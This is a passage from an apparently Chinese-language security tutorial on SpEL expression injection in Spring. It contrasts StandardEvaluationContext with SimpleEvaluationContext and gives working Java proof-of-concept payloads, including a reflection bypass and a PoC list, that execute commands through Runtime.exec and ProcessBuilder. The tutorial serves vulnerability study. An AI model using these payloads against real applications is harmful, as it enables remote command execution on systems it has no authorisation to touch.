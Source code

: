 `SimpleEvaluationContext` 和 `StandardEvaluationContext` 是 SpEL 提供的两个 `EvaluationContext`：

- SimpleEvaluationContext : 针对不需要 SpEL 语言语法的全部范围并且应该受到有意限制的表达式类别，公开 SpEL 语言特性和配置选项的子集。
- StandardEvaluationContext : 公开全套 SpEL 语言功能和配置选项。您可以使用它来指定默认的根对象并配置每个可用的评估相关策略。

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集，不包括 Java 类型引用、构造函数和 bean 引用；而 `StandardEvaluationContext` 是支持全部 SpEL 语法的。

由前面知道，SpEL 表达式是可以操作类及其方法的，可以通过类类型表达式 `T(Type)` 来调用任意类方法。这是因为在不指定 `EvaluationContext` 的情况下默认采用的是 `StandardEvaluationContext`，而它包含了 SpEL 的所有功能，在允许用户控制输入的情况下可以成功造成任意命令执行。

如下，前面的例子中已提过：

JAVA

```
public class BasicCalc {  
    public static void main(String[] args) {  
        String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")";  
        ExpressionParser parser = new SpelExpressionParser();  
        Expression expression = parser.parseExpression(spel);  
        System.out.println(expression.getValue());  
    }  
}
```

![img](https://drun1baby.top/2022/09/23/Java-%E4%B9%8B-SpEL-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/CalcVul.png)

### 通过反射的方式进行 SpEL 注入

- 因为这里漏洞原理是调用任意类，所以我们可以通过反射的形式来展开攻击：

JAVA

```
public class ReflectBypass {  
    public static void main(String[] args) {  
        String spel = "T(String).getClass().forName(\"java.lang.Runtime\").getRuntime().exec(\"calc\")";  
        ExpressionParser parser = new SpelExpressionParser();  
        Expression expression = parser.parseExpression(spel);  
        System.out.println(expression.getValue());  
    }  
}
```

### 基础 PoC&Bypass 整理

- 相关代码已同步至 GitHub，师傅们可以直接复现

下面我们来整理下各种利用的 PoC，这里默认把定界符 `#{}` 去掉。

PoC：

JAVA

```
// PoC原型
 
// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")
 
// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()
```
